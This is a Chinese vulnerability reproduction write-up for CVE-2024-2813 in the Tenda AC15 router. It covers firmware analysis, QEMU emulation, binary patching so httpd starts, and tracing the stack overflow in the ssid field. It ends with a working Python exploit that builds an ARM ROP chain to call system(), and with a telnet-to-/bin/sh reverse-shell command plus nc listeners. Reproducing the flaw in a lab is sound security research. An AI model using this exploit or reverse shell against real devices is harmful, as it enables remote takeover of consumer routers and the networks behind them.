

# CVE-2024-2813 缓冲区溢出

## 1.漏洞描述

Tenda AC15 15.03.20_multi 中发现一个漏洞。该漏洞已被声明为严重漏洞。此漏洞影响文件 /goform/fast_setting_wifi_set 的 form_fast_setting_wifi_set 函数。对参数 ssid 的操纵会导致基于堆栈的缓冲区溢出，攻击可以远程发起


## 2.系统审计

目前官网只能下载到AC15升级软件V15.03.05.19和V15.03.05.18，本篇采用19版本实验

firmwalker 审一下，可以看到是 httpd 服务，并且是 arm 小端 32 位


etc_ro/init.d/rcS 启动项最后：

* cfmd 进程暂时不清楚
* hotplug 即热插拔，写入空字符串也就是禁用
* udevd 是一个设备管理守护进程，负责处理设备的添加和移除事件
* logserver 用于处理日志记录
* moniter 看名字应该自定义的监控进程
* telnetd 是一个 telnet 服务守护进程，用于提供远程登录功能

```shell
cfmd &
echo '' > /proc/sys/kernel/hotplug
udevd &
logserver &

tendaupload &
if [ -e /etc/nginx/conf/nginx_init.sh ]; then
	sh /etc/nginx/conf/nginx_init.sh
fi

moniter &
telnetd &
```

分析一下cfmd：

定位到httpd处理的一个函数：


传入sub_CE80，并执行httpd


## 3.系统仿真

start.sh:

```shell
#!/bin/sh

sudo qemu-system-arm \
 -M vexpress-a9 \
 -kernel vmlinuz-3.2.0-4-vexpress \
 -initrd initrd.img-3.2.0-4-vexpress \
 -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 \
 -append "root=/dev/mmcblk0p2" \
 -net nic \
 -net tap,ifname=tap0,script=no,downscript=no \
 -nographic
```

网络配置 net.sh:

```shell
sudo tunctl -t tap0
sudo ifconfig tap0 192.168.0.4/24 up
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward > /dev/null
sudo iptables -t nat -A POSTROUTING -o ens33 -j MASQUERADE
sudo iptables -A FORWARD -i tap0 -j ACCEPT
sudo iptables -A FORWARD -o tap0 -j ACCEPT
```

qemu 网络配置：

```shell
ip link add br0 type dummy
ifconfig eth0 192.168.0.2/24
ifconfig br0 192.168.0.3/24
```

打包上传：

```shell
tar czvf rootfs.tar.gz ./squashfs-root
sudo scp -r rootfs.tar.gz root@192.168.0.3:/root/
tar -xzvf rootfs.tar.gz
```

启动：

```shell
chmod -R 777 squashfs-root/
cd squashfs-root/
mount --bind /proc proc
mount --bind /dev dev
chroot . /bin/sh
```

如果是用etc_ro/init.d/rcS中的启动脚本，会一直循环收到重启系统报错，如果是直接启动/bin/httpd后会一直卡在欢迎界面：


后面的用户态修复后，系统态可以正常启动了


## 4.用户态修复

用户态调试下程序，看看到底卡在了哪里,system模式下是一直卡在了welcome，并没有下面的connect的报错，那应该是卡在了httpd中的sub_2E420一个while循环中的sleep，也就是`check_network`返回值一直小于0，对比可确认库文件


最终追踪到问题点：


可以看到最后有一些connect是被的输出，而在httpd的main调用的sub_2E420中，是没有通过`ConnectCfm(v4)`检查才会输出nect cfm failed!的，所以ConnectCfm执行失败了


根据对比可以发现`ConnectCfm`实现的动态链接库


再次对比可以确认


跟进`ConnectCfm`中的`j_ConnectServer`，追踪到`ConnectServer`，同样追踪到问题点：


可以看到上面这两个问题都是socket的问题，那我们直接patch httpd程序，或者hook其函数，让其返回其预定值，为了方便起见，这里我们直接在ida中使用keypatch修改其程序流，让他可以直接往下运行

0x002E518和0x002E53C处的跳转指令直接改成B

用户态仿真一下：比上次进步了一点，但还是存在问题


还是老步骤，追踪错误执行流：sub_2E420->sub_2E9EC->sub_29510->sub_29818->sub_1B84C

执行sub_29510处是一个判断，深入执行失败后，else打印websOpenServer failed

gdb调不方便看，我们在linxu下使用ida和qemu一样也是客户以调试的，可以看到，是这个bind函数存在问题，并且通过下面的分析，可以知道sa_data中的数据分别指代的是ip地址255.255.255.255和端口80


而s的值是a1参数经过inet_addr处理的


向上递归追踪：


定位回sub_2E420，再定位getLanIFName和getIFip，定位到链接库/lib/libcommon.so


由get_eth_name定位到/lib/libChipApi.so，get_eth_name则是选择网卡，上面传入的参数是0，所以选择网卡br0


查看虚拟机网卡，并没有br0，所以才会导致上面的网络问题

网络配置：

```
#!/bin/sh
sudo brctl addbr br0                   # 添加一个名为 br0 的网桥
sudo ifconfig br0 192.168.0.1/24 up    # 启用 br0 接口
```

网络可以ping通，web端却报错


可以发现初始启动项文件里把 webroot_ro 目录下的所有文件和子目录复制到 webroot 目录中，照做，然后重启服务


成功启动web端：


## 5.漏洞分析

根据描述：此漏洞影响文件 /goform/fast_setting_wifi_set 的 form_fast_setting_wifi_set 函数。对参数 ssid 的操纵会导致基于堆栈的缓冲区溢出

定位漏洞点：还是httpd服务


搜索到前端代码：该函数收集用户输入的数据，并将其发送到服务器进行处理，使用 post 发送一个 POST 请求，将 data 发送到服务器的 goform/fast_setting_wifi_set 接口，并在请求完成后调用 handWifi 函数处理响应


对二进制httpd其实拿vufli扫一下是可以扫到的，但就是不太准确，太多了，自己一个个慢慢看又太困难了

该函数在httpd中的启动流程：sub_2E420->sub_2E9EC->sub_42378->sub_171EC->sub_1FCF0->sub_20190->form_fast_setting_wifi_set


一开始的函数序言与尾声：


可以看到s和src的栈偏移分别是-0x7c和-0x1c，这里的两次的strcpy操作，均是对从前端获取的ssid的值进行拷贝操作

src是一个char* 类型的指针，如果第一次覆盖deadbeef，可能导致第二个strcpy拷贝时因为src指向地址而抛出异常，所以构造payload时候需要让他执行一个合适的地址

同时，还需要注意，因为strcpy会'\x00'截断，所以放入的一个地址还得是一个大地址，那么这就需要去从动态链接库中寻找

去libc.so中寻找，可以使用该字符串，但又由于是动态链接文件，所以我们还得在调试的时候获得链接库基址



接下来，就是溢出后的构造rop链，使用ROPgadget工具：

需要我们最终目的是执行system，同时还要设置我们system函数的参数r0，那么我们将参数放在栈上，让sp指向参数，然后将sp赋值给r0，同时跳回system，可考虑如下rop链


整体利用思路图示：


```
#关掉地址随机化
echo 0 > /proc/sys/kernel/randomize_va_space
```

远程调试，文件系统上传时打包一个静态gdbserver进入，然后`gdbserver :1234 --attach 2741`,远程再连接即可

libc.so:


断在ssid处理的地方：可以看见ssid是直接传入没有进行任何过滤的：


exp：

```python
import requests
from pwn import *

target_ip = "192.168.0.3"
target_port = 80 

libc_base = 0x76dab000 
readable_addr = libc_base + 0x64144 # string 'HOME'
system_offset = 0x5A270 
mov_r0_sp__blx_r3__offset = 0x49c64
pop_r3_pc_offset = 0x18298

cmd = b'ps>proc_info.txt'

payload = b'a' * (0x60) + p32(readable_addr) + b'b' * (0x1c-4) 
payload += p32(libc_base + pop_r3_pc_offset)
payload += p32(libc_base + system_offset)
payload += p32(libc_base + mov_r0_sp__blx_r3__offset) + cmd

url = f"http://{target_ip}/goform/fast_setting_wifi_set" 
cookie = {"cookie": "password=qpacvb"}
	
data = {"ssid": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
```


也可以弹一个shell，command：

```shell
telnet 192.168.0.4 4444 | /bin/sh | telnet 192.168.0.4 5555
nc -lp 4444
nc -lp 4444
```

一个nc负责输入，一个nc负责显示


